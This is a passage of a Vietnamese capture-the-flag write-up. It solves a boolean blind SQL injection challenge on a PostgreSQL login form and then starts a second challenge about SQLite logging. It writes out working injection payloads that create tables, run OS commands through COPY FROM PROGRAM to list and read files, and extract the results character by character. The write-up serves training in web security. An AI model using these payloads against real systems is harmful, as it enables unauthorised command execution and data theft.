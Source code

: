 ![image](https://github.com/user-attachments/assets/99efbf7f-791c-468a-8585-822bcb9dab15)

- Mục tiêu của mình là dựa vào lỗ hổng này để tìm và mở được 1 file là `flagXXXX.txt` và lấy flag trong file đó
- Quan sát thì thấy, khi nhập username hoặc pass thì nó chỉ có 2 trường hợp xảy ra:

![image](https://github.com/user-attachments/assets/a03a8305-8809-4770-ad28-b7f77d5f245a)
![image](https://github.com/user-attachments/assets/362232fe-47e6-4aa4-b134-707a9e32e0b9)

- Ở đây khá chắc là Boolean SQli
- Vì ở đây nó không cho ta biết được kết quả của chuỗi truy vấn nên ta không thể trực tiếp chèn các hàm như `pg_read_file()`, `cat` đêr trực tiếp đọc file này. Mặt khác, ta cũng không có tên của file flag để đọc 😃
- Vậy là bây giờ cần:
    + Tạo ra 1 bảng mới
    + Lấy tên tất cả các file đưa vào bảng mới tạo
    + Dùng cách dò đúng sai để biết được các tên file flag cần tìm
- Tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
    + ![image](https://github.com/user-attachments/assets/32ade69b-5395-4239-943b-c3e676a737ad)
    + Gửi lại lần 2 để xác nhận bảng `abc` đã tồn tại
- Đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
    + Nếu ra `Welcome, admin...` thì là đúng
    + Ra `Invalid username or password!` thì ký tự đó sai
- Đưa vào Intruder:
![image](https://github.com/user-attachments/assets/f72ef139-71ac-4093-a639-c2c6a3b3b337)

- Vậy là ta kiếm được tên file là `flags3JDE.txt`
- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flags3JDE.txt`
    + `'; CREATE TABLE efg(sss text);--`
    + `'; COPY efg FROM PROGRAM 'cat /flags3JDE.txt';--`
    + Rồi tương tự dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`

----------------------------
### Script python:
- [Tìm tên file](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Baby_SQL_Injection_to_RCE_1.py)
- [In flag](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Baby_SQL_Injection_to_RCE_2.py)
----------------------------


# 3. Blind Logger Middleware

## Đầu bài cho biết:
```sql
INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}');
```
- Có một hàm được triển khai để "làm sạch" (sanitize) đầu vào của người dùng, loại bỏ các ký tự đặc biệt trước khi chèn chúng vào truy vấn SQL
- SQLite
